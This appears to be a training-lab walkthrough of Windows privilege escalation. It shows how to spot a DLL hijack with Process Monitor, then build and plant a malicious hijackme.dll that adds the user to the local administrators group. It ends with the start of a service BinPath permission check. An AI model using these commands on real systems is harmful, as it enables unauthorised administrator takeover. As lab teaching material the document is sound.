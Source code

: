 ### DLL Hijacking

#### Detection

Windows VM

1. Open the Tools folder that is located on the desktop and then go the Process Monitor folder.
2. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.
3. In procmon, select "filter". From the left-most drop down menu, select ‘Process Name’.
4. In the input box on the same line type: dllhijackservice.exe
5. Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
6. Next, select from the left-most drop down menu ‘Result’.
7. In the input box on the same line type: NAME NOT FOUND
8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
9. Open command prompt and type: sc start dllsvc
10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

#### Exploitation

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows\_dll.c’ to the Kali VM.

Kali VM

1. Open windows\_dll.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86\_64-w64-mingw32-gcc windows\_dll.c -shared -o hijackme.dll
3. Copy the generated file hijackme.dll, to the Windows VM. Windows VM
4. Place hijackme.dll in ‘C:\Temp’.
5. Open command prompt and type: sc stop dllsvc & sc start dllsvc
6. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

***

### BinPath

#### Detection

Windows VM

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE\_CHANGE\_CONFIG” permission.
